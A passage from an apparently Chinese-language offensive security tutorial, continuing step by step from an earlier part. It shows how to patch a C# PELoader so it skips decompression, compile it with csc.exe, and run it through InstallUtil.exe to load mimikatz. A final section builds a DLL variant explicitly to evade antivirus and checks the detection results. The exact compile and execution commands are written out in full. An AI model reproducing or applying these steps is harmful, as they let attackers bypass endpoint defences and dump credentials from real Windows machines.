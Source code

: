 如图

![enter image description here](http://drops.javaweb.org/uploads/images/d84ae1ac3b9785ad3b23c26b63c64642a549b36a.jpg)

**（3）**修改解密过程

定位`PELoader.cs`Line106，去掉

```
byte[] decompressed = Decompress(FromBase64);

```

在前面添加“//”即可，如图

![enter image description here](http://drops.javaweb.org/uploads/images/d0278d24192ad21ca4c7dfe8066780af1b562439.jpg)

**（4）**再次编译并利用`InstallUtil.exe`执行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/ca348a465c8f6aae2db32110af8cb3896ee67f1d.jpg)

证明修改成功，能够顺利执行我们修改的代码

**（5）**增强免杀

采用如下生成步骤：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /target:library /out:PELoader.dll PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.dll

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/2f056490953bffaca4271716c16c0d36ae6199e8.jpg)

也可以成功加载`mimikatz`

测试查杀情况

如图

![enter image description here](http://drops.javaweb.org/uploads/images/2d3bc24b82a046c328bab9a2418b7b0a60673f5e.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/151928a7b4bc53f760f75f600986868d91ed9c33.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ea23c02e3cd17796543fab4fb23705b956558318.jpg)
